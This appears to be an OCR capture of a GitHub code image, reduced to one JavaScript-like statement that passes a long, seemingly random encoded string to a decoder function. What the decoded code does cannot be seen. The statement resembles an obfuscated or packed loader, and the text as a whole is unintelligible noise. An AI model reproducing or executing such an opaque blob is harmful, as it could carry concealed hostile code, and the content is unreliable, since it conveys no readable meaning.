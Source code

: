 r=e(d,"^#dxsOh?Jw<{a9zMdsM#zJz+9J99aJaA{J<z#xdh#w#JfOz%HwMJzO<<<=wJsJsaxJxZdJ#z?hJwwdJax2O{hxh<OwOJOsaua#{S<J<1whzz#dM9MO<JaJz99dOZOxsPxJx_dhJ{w#wzJOO{?M?hhhh#O?9(9{ao{J{K<hB #MM_8M{J9JM9zdwJwJ{aaOaO?1wx<O{#Ow#:## _MJMqzhs{xxxJR3;{3vMJMJ<4wawgJJJ;9<zw9aaOOJO{sJskxJdz<a<?w#JawxJaJd?#hzOM9J9JaJaE{J<z#<#wdeaJzJ;9Md?1?xh:OJO.shw9aJ{J<a<?wwwahhJ#?zM,Mwzu9J9)ahdssOd{d{x#9%z<=aq?MxMxMxwJ{J99adsqsxxXdJdU#hhzwdJ??z?ahah#Ozs9OxaGaz{*<J<_whzwYz}#M9z9<!a{zsaw9da{?Cw{<w<O<OwsJ#Ja?M?<zJz99J9faJ{z#xx?dz#z#w>MzhW?MazazOz<OJ?xsJsQxJdzw<{#w?Jwwd?a?OdJOhd<#D#3dhs9xzd{dwd?#zewak,hMM<J9c9{wM{OaM{<{w{s<Oh##J#zKJGnMJzzszh#OzOds#MJ#ad9d?#9#z6a#xJGwa?VhJh1Oh<z9OaaaO{<<OOJ<OwJJs?wJsh9?x#Jh?O#sassM>d<dO9J#a###xtaMOza</zq9O9<aOJhxJszdJdi#J1zhaOahxdJsJh9Od0JfJ#zsOxhdxd##M#hm#{JMzM?<Y9{9O9s9Oas{#{<hwdYdd#RyJ)5MhO{hJh#Ozh#P+d(sOd<<J<awJw4JJ?zzxMJzO999sJJ{da9{zhJ?sdDdH#c*J4KMhh(hshxOOO<OsIw{J{w<J<FwJJzMxK?kOMJ<Qa zOa<sJsaxJxudJ#z?xw?JzJh?Oh{?s#JxJO9sda=aK{N<J<,whMhLO#7{*9WMO9<OJO<sJs5xJdzwxw9w#w<JxJuOdhw?dzHzh9XaJa){h+ad#dh#sd#a?I{{T9MzMz<9aaasJh?xJx4dJ#z?dwsJMwSxlsz?dh9OwOaOxMJdhM<zPz6Mh#9RzM{MwM?zz9wwG9haM?J<k<{hMJOwMJ<JwJs?Ox#zJMx9J9_aJ{z#ad9d?#9#zGa#x{Jzdz9{<aMzd9#9saa{O{hdJdO#J#mPJMz??hwh9O99J9JaJaQ{J<z#dd9##aJ%J79Md?5??hYOJOosh<{{x{<<w<J<ssJhz?9J?dJOOhJOs9v9{ak{J{v<hG{dO#<#hi#Nhz9<rza9Ja9Jt<x{w{s<aw9<d#Y#wqcMJMmzhsOhOO<ssx9sdzJN9x#dx#a4O0<8w<J{dhUh#OXsJsexhwO<O<OwOsJ?x?9?#MYMsz89J9mahdaswxJdO9J#M#<a:9aMwz9hJhaOJORsJxzw{{#<zwMOu?sJO?M?#h{?wz:9z9BaJan{hd#0#g<MJMOJJw#?J?6hJOzaxa99saa{w{h<?<{OU?{JO?{Js?#hMhh9J9OaJay{J<zFwdh#w#aJJJM?J?WhJOzax9a9was{OhJwxw9waJ9JxJa?M?<zJz<9J9iaJ{zdds#ddd?d?aJzJ89Md?Y??hmOJOKsh<{as{9<sOJ?<w9J9JJxvO?hdO<hw9}9xa:{J{R<h,O###xcOzMMwMhzsz?z?O=O#scxJxPdhwdwOw<OkxJOJ?9hdzkzR9>aJa
